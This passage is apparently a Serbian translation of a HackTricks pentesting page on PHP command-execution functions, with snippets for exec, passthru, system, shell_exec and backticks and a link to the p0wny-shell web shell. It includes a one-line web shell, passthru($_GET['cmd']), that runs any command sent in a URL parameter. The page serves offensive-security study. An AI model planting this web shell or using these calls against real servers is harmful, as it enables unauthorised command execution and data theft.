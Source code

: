 # PHP - Useful Functions & disable\_functions/open\_basedir bypass

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## PHP Komanda i Izvršavanje Koda

### PHP Izvršavanje Komande

**Napomena:** [p0wny-shell](https://github.com/flozz/p0wny-shell/blob/master/shell.php) php webshell može **automatski** proveriti i zaobići sledeće funkcije ako su neke od njih onemogućene.

**exec** - Vraća poslednju liniju izlaza komande

```bash
echo exec("uname  -a");
```

**passthru** - Prosleđuje izlaz komandi direktno u pregledač

```php
<?php
passthru($_GET['cmd']);
?>
```

This function allows an attacker to execute arbitrary commands on the server and display the output directly in the browser. It is commonly used to perform command injection attacks. By manipulating the `cmd` parameter in the URL, an attacker can execute any command they want on the server. This can lead to unauthorized access, data leakage, and other security vulnerabilities. It is important to sanitize user input and validate the commands being executed to prevent this type of attack.

```bash
echo passthru("uname -a");
```

**system** - Prosleđuje izlaz komandi direktno u pregledač i vraća poslednju liniju

```bash
echo system("uname -a");
```

**shell\_exec** - Vraća izlaz komandi

```bash
echo shell_exec("uname -a");
```

\`\` (backticks) - Isto kao i shell\_exec()

```bash
echo `uname -a`
```

**popen** - Otvora čitanje ili pisanje cevi ka procesu komande
